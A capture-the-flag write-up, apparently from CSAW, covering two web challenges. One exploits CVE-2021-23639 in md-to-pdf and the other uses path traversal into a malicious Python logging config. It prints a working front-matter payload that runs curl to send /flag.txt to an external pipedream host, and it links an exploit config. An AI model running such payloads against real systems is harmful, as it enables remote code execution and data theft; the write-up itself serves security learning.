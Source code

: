 ![world-wide-web-flag](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608173/csaw/world-wide-web-flag_dtwoou.png)  

## My Little website

![my little website](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608180/csaw/my-little-website_yp34fj.png)

![my little website](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608179/csaw/my-little-website-challenge-pic_xuyuqc.png)

So as far my enumeration went that's what I found:

- **expressJS** server running, identified with the headers.
- Opens a headless chrome instance to render the pdf.
- Dynamic XSS didn't work, might be beacuse the bot doesn't wait for the JS execution and even forcing it to wait doesn't really work it renders the HTML,CSS and then the PDF.

A wild guess by my teammate **M0ngi** about the markdown parser, the CVE was *CVE-2021-23639* which occurs in the vulnerable version of *md-to-pdf*.

So we execute our final payload.

```md
---js
((require("child_process")).execSync("curl https://en7nqjdbzyckx.x.pipedream.net/ -d \"$(cat /flag.txt)\" "))
---
```

![my little website](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608179/csaw/my-little-website-flag_sqrb1m.png)

## Good Intentions

![Good intentions](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608207/csaw/good-intentions_q5rbw9.png)

Reading through the code, I found that the upload is secure.
![Secure upload](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608180/csaw/secure-upload_cs0nrd.png)

But going further down the code the function to set the **logger** configuration file is vulnerable to **path traversal**.

![Unsecure Log set](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608175/csaw/unsecure_logconf_gan7js.png)

Here, I didn't know which evil configuration should I **upload** then set the logger to. I needed to have RCE on the server. Fortunately enough, my teammate **n0s** sent me this link  of an [Evil logger](https%3A%2F%2Fgithub.com%2Fraj3shp%2Fpython-logging.config-exploit%2Fblob%2Fmain%2Fexploit%2Fbad-logger.conf%3Ffbclid%3DIwAR0W2Cdm3GLHqtFbAQjU3iatoSSTnlbj-kuUP_FYX3jYVHTvDvH7LrneBW4&h=AT2QW5JZ9Xo6Qxu0-PtnFRXvizekY-KwhalZdV6aiTe0nGrJKkLDiGvLKFysZp_1QIS5xBW03o98eLDuK-LJYfHx4uSZwRB05MOYG7pu420p1iUPViifuWgRXOQHSLMjihPiJQ).

So the final chain will be as the following:

![good-intentions-request-chain](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608204/csaw/good-intentions-request-chain_wf7er2.png)

### Logger code **payload.conf**
